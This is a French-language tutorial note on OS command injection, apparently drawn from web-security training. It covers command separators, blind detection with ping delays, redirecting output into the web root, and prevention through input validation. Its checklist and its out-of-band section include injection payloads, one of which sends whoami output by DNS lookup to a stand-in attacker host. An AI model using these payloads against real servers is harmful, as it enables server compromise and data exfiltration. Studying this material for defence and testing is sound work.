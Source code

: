 ```yaml
---
title: "4.Injection de commandes"
category: "Serveur"
tag: "Web"
---
```


## CheckList en pratique
- Injection avec retour d'information : `& whoami &` avec les différents séparateurs de commandes (`&, &&, |, ||, ;, \n, 0x0a`)
- Bind injection :
    - Détecter en provoquant du délai : `qsParam=test||ping+-c+10+127.0.0.1+||`
    - Exploitation en faire une redirection dans un dossier writable : `email=||whoami>/var/www/images/output.txt||`
    - Exploitation par injection utilisant des techniques **OAST** :
    ``&email=test||nslookup+kgji2ohoyw.web-attacker.com||`` 
    - Exploitation & **exfiltration de données** par injection utilisant des techniques **OAST** : 
    ``&email=test||nslookup+`whoami`.kgji2ohoyw.web-attacker.com||``

## Explication de la vulnérabilité
Cette vulnérabilité web permet à un attaquant d'exécuter une commande de système d'exploitation (OS) sur le serveur sur lequel l'application est exécutée, et compromettre toute l'application et ses données. Souvent, cette attaque amène à une exploitation de l'infrastructure hôte en pivotant sur d'autres systèmes de l'organisation.

## Exécution de commandes arbitraires
Considérons un site de magasin qui vérifie si un article est en stock de la manière suivante :
`https://insecure-website.com/stockStatus?productID=381&storeID=29`.
Pour fournir l'information et pour des raisons historiques, la fonctionnalité va appelé une commande shell avec le produit et son ID de la manière suivante :
`stockreport.pl 381 29`, et le retour est renvoyé à l'utilisateur.

Sans protection, l'attaquant peut injecter la commande suivante `& echo toto &` ce qui donnera `stockreport.pl & echo toto & 29`

## Commandes utiles

|Purpose of command|Linux|Windows|
|:----|:----|:----|
|Nom de l'utilisateur courant|whoami|whoami|
|système d'exploitation|uname -a|ver|
|configuration réseau|ifconfig|ipconfig /all|
|connections réseau|netstat -an|netstat -an|
|processus courants|ps -ef|tasklist|

## Vulnérabilités d'injection Blind de commandes OS
De nombreuses injections de commandes sont faites en aveugle, ce qui veut dire que l'application ne renvoie pas de sortie de la commande dans la réponse HTTP. On peut exploiter les vulnérabilités en aveugle, mais de différentes manières.

Pour illustrer cela, on peut prendre le cas d'une application qui permet de donner un feedback sur un site en donnant son adresse mail et le message de feedback. L'application du côté serveur génère un email vers l'administrateur du site contenant le feedback. 

Pour cela, il peut utiliser un programme `mail` avec les détails, par exemple :
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Détecter les injections de commandes OS en aveugle avec l'utilisation de délais
On peut utiliser une injection de commande qui va ajouter un temps de délai, nous permettant de voir que la commande a bien été injecté.
On peut faire ça avec `ping` par exemple, pour allonger le temps de traitement  :
`& ping -c 10 127.0.0.1 &`
Cette commande va ping son adresse réseau de loopback pendant 10 sec.

### Exploitation d'injections de commandes OS en aveugle par redirection de sortie
On peut rediriger la sortie de l'injection de commandes dans un fichier à l'intérieur de la racine du site web, que l'on peut récupérer avec le navigateur ensuite.

Par exemple, si l'application sert des ressources statiques à partir de l'emplacement du système de fichiers `/var/www/static`, vous pouvez soumettre l'entrée suivante :

`& whoami > /var/www/static/whoami.txt &`

### Exploitation d'injections de commandes OS en aveugle à l'aide de techniques hors bande (OAST)
On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système qu'on contrôle, en utilisant des techniques OAST.  
En voici un exemple :
`& nslookup kgji2ohoyw.web-attacker.com &`

Ce payload utilise la commande nslookup pour provoquer une recherche DNS pour le domaine spécifié. L'attaquant peut surveiller l'exécution de la recherche spécifiée et détecter ainsi que la commande a été injectée avec succès.

On peut aussi exfiltrer facilement la sortie de commandes avec cette technique :  
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``  
ce qui provoquera une recherche DNS vers le domaine de l'attaquant contenant le résultat de la commande whoami :
`www.user.kgji2ohoyw.web-attacker.com`

## Façons d'injecter des commandes du système d'exploitation
De nombreux métacaractère du shell peuvent être utilisés pour effectuer des attaques par OS command injection.
On peut citer les caractères qui servent de séparateurs de commandes, permettant d'enchaîner les commandes.

Sous Windows et Unix on a par exemple :
- `&`
- `&&`
- `|`
- `||`

Sous les systèmes basés sur Unix :
- `;`
- `\n` ou `0x0a`
On a également la possibilité de faire des commandes de types inline :
- `` ` ``
- `$()`

## Comment s'en prémunir
La meilleure manière de s'en prémunir est de ne jamais appeler des commandes OS à partir d'un code provenant de la couche applicative. Il existe des alternatives sécurisées notamment avec des APIs.

S'il est inévitable de faire une commande OS avec une entrée utilisateur, alors une validation de l'entrée doit être faite, ce qui peut inclure :
- une validation à l'aide d'une liste blanche des valeurs autorisées.
- une validation si l'entrée doit être un caractère numérique.
- une validation des entrées alphanumériques, sans autoriser d'autres caractères comme les espaces ou autres.